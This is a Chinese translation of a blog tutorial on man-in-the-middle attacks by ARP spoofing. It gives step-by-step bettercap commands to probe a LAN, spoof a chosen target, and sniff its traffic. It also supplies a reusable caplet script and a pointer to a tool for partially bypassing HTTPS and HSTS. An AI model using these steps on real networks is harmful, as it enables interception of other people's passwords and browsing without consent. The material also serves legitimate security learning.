

# ARP 欺骗的中间人攻击:教程和示例

> 原文：<https://levelup.gitconnected.com/man-in-the-middle-attack-by-arp-spoofing-tutorial-and-examples-e8f76d0b98f3>


# 什么是中间人(MITM)攻击？

中间人(MITM)攻击是一个通用术语，指的是机器将自己置于客户端/用户和服务器/互联网之间的连接中，以窃听或冒充其中一方，使其看起来好像正在进行正常的信息交换。下图很好地描述了这一点。


MiTM 攻击者将能够将他/她自己置于用户和互联网服务器之间，以查看发生了什么。我们将使用 ARP 欺骗攻击来实现这一点。在开始之前，让我们知道什么是 ARP 协议，以及我们将如何利用它成为中间人。

## 什么是 ARP？

ARP 代表**地址解析协议**。它将 IP 地址链接到设备的 MAC 地址。网络中的每台计算机都有一个存储网络中设备的 IP 地址及其 MAC 地址的表。**因此，无论何时在网络中发送数据，它都将被发送到具有与数据包的目的 IP 相关联的 MAC 地址的设备。通过运行以下命令，我们可以看到这个 ARP 表。**

```
**$** arp -a
```

对我来说，这是输出:


“arp-a”的结果

## ARP 欺骗

ARP 欺骗可以通过告诉路由器用户的 IP 对应我们的 MAC 地址来实现。我们还会告诉用户，路由器的 IP 地址对应我的 MAC 地址。猜猜看！！！用户和路由器之间的所有流量现在都将流经我们的机器。

此漏洞可能存在的原因是因为 ARP 协议不安全，即使客户端机器没有发送请求，它们也会接受响应，并且在更新它们的 ARP 表之前，客户端机器甚至不会进行验证。您可以查看下图，了解我们将要实现的目标。


图片来源:ZSecurity

如前所述，我们将使用 ARP 欺骗攻击作为中间人。ARP 欺骗会重定向数据包流。因此，数据包不是直接在客户端和接入点之间流动，而是通过我们的系统重定向。这意味着我们将能够看到用户正在浏览的所有网站、用户名、密码和图片。

让我们实际看看这将如何工作。我用 Ubuntu 20.04 来执行下面所有的命令。这些命令对于任何基于 Debian 的 Linux 机器都是一样的。`Kali Linux`是首选，因为它会预装大多数工具。我将使用的工具是`bettercap`。这是一个开源工具。让我们下载它，并通过在您的终端中运行以下命令来安装它:

```
**$** wget "https://github.com`curl -s https://github.com/bettercap/bettercap/releases | grep -E -o '/bettercap/bettercap/releases/download/v[0-9.]+/bettercap_linux_amd64_(|v)[0-9.]+zip' | head -n 1`"**$** unzip bettercap_linux_amd64_*zip
**$** sudo mv bettercap /usr/local/bin/
**$** rm bettercap_linux_amd64_*
```

运行`bettercap -h`查看安装是否正确

```
**$** bettercap -h
```

> **注意:**有一个可选步骤。如果您愿意，您可以更改您的 MAC 地址。这是在网络上隐藏身份的一种方式。要做到这一点，可以按照这里的步骤: [**如何更改 MAC 地址？**](https://blogs.gourav-dhar.com/how-to-change-mac-address-120ffce66965)

# 做中间的人

## **1。在终端中运行'`ifconfig'`,得到接口名**


“ifconfig”的输出

如你所见，我有两个接口，`wlan0`和`wlxb0a7b9b32df2`。我将选择`wlxb0a7b9b32df2`接口，并在后续命令中使用它。你可以选择其中任何一个。

## 2.**通过运行以下命令**进入 `**bettercap**` **工具。**

<interface-name>是我们在上面步骤中取的名字。</interface-name>

```
**$** bettercap -iface <interface-name>
```



此后，我们将在这个 shell 中编写所有的命令。

> ProTip:您可以在这个 shell 中键入`help`,获得一个使用 bettercap 可以做的所有酷事情的列表

## 3.获取与路由器连接的设备 IP 列表

我们需要一份连接到路由器的设备列表，这样我们就可以选择攻击的目标设备。

为此，我们将启动`net.probe`模块。该模块将通过向子网中每个可能的 IP 发送伪 UDP 数据包来持续探测网络上的新主机。要打开`net.probe`，执行以下命令

```
**bettercap-shell>** net.probe on
```


打开它还会触发`net.recon`模块，在该模块上将读取 ARP 缓存，以便监控网络上的新主机，并从中创建一个不错的列表。

要查看此列表，请运行以下命令

```
**bettercap-shell>** net.show
```

输出应该如下所示:


“net.show”的输出

记下我们要在其上执行 ARP 欺骗的目标设备的 IP。对于我的例子，它是名为`infinee.local`的设备，目标 IP 是`192.168.29.65`。

## 4.对目标 IP 的 ARP 欺骗攻击

现在，我们将在目标设备上运行 ARP 欺骗攻击。这将把我们置于用户和路由器之间。因此，我们可以拦截数据，查看目标设备正在访问的所有 URL 和网站，以及用户发布的任何内容。我们将使用`berttercap`提供的`arp.spoof`模块。

如果您愿意，您可以运行`help arp.spoof`来查看该模块提供的选项列表。我们需要将`arp.spoof.fullduplex`选项设置为 true。这样做将欺骗目标设备和路由器，我们将处于连接的中间。我们将通过运行以下命令来实现这一点。

```
**bettercap-shell>** set arp.spoof.fullduplex true
```

接下来，我们应该使用下面的命令设置目标。对我来说，这里是 T2。并通过键入`arp.spoof on`打开它

```
**bettercap-shell>** set arp.spoof.targets <target_ip>
**bettercap-shell>** arp.spoof on
```


`arp.spoof on`会做 3 件事:

*   在`target_ip`告诉路由器我是用户
*   在`target_ip`告诉机器我是路由器
*   启用端口转发，以便我的机器可以在这两者之间无缝传输数据

太棒了！！！我们现在是中间人。我们现在可以使用自己的程序或 Wireshark 来捕获数据包。对于这个博客，我们将使用一个由`bettercap`提供的工具。一旦您成为中间人，目标机器上的页面加载时间将会有一个小的延迟。


## 5.数据包嗅探

我们必须告诉`bettercap`捕捉所有流经这台电脑的数据，并为我进行分析。为此，我们将使用由`bettercap`提供的`net.sniff`模块。只需运行以下命令开始嗅探。

```
**bettercap-shell>** net.sniff on
```


“net.sniff on”的输出

如您所见，我们能够看到 API 请求和请求体在客户机和互联网之间传输。

我们不得不为 ARP 欺骗编写如此多的`bettercap`命令。我们可以将所有这些命令写在一个`*.cap`文件中，其中`*`是任何文件名，并通过`bettercap`执行它们。为此，我将创建一个名为`arp-spoof.cap`的文件，其内容如下

```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets <target_ip>
arp.spoof on
net.sniff on
```

我们称之为胶囊。要执行它，请在终端中运行以下命令:

```
**$** bettercap -iface <interface_name> -caplet arp-spoof.cap
```

其中 `<interface-name>` 是我们在第一步中获得的适配器的名称。


使用 caplets 的 arp 欺骗

## 使用 WireShark 嗅探数据包

或者，我们可以使用名为`Wireshark`的嗅探工具来嗅探这些数据包。我们仍然需要使用`bettercap`进行 arp 欺骗。`Wireshark`只是对`bettercap`的`net.sniff`模块的替换。

运行以下命令安装`wireshark`:

```
**$** sudo add-apt-repository ppa:wireshark-dev/stable
**$** sudo apt-get update
**$** sudo apt-get install wireshark
```

开始`wireshark`:

```
**$** sudo wireshark
```

从`wireshark`的 UI 中，我们选择在步骤 1 中获得的网络接口。我们的嗅探器将启动，如下图所示。


`bettercap`和`Wireshark`两种方式查看的网络数据包是一样的，只是`wireshark`是`bettercap`中`net.sniff`的 UI 方式，信息稍微多一些。

这种方法不适用于通过 HTTPS 协议发送的数据包。我们将只能读取通过 HTTP 协议发送的数据包。

但是，互联网上有一些可以执行的小胶囊`bettercap`，可以帮助您部分绕过`HTTPS`和`HSTS`协议。你可以在这里找到这样一个囊片:[https://github.com/bettercap/caplets/tree/master/hstshijack](https://github.com/bettercap/caplets/tree/master/hstshijack)

在我即将发表的博客中，我会写如何防止中间人攻击。我还将展示一旦您成为中间人或者有客户端连接到您的接入点，注入 javascript 代码是多么容易。

> 这是一份探索我们博客平台 [**极客头脑**](https://www.thegeekyminds.com/) 的邀请。一个让您了解软件开发和技术领域最新发展的一站式平台。我们在 [**的极客头脑**](https://www.thegeekyminds.com/) 旨在写一些你实际上可以用来提高工作效率和充实你的职业生活的内容。
> 
> 邀请你通过我们在 https://thegeekyminds.com[](https://thegeekyminds.com/)**的平台。并订阅我们的时事通讯，以便在我们每次发布新帖子时收到电子邮件。我们承诺不会向您的收件箱发送垃圾邮件。点击下面的按钮订阅我们的时事通讯**

**[](https://forms.wix.com/4444cf13-7653-460d-9b32-f2e4e65544d1:c2184260-1ab5-4c6a-a37d-53de0778afa0)**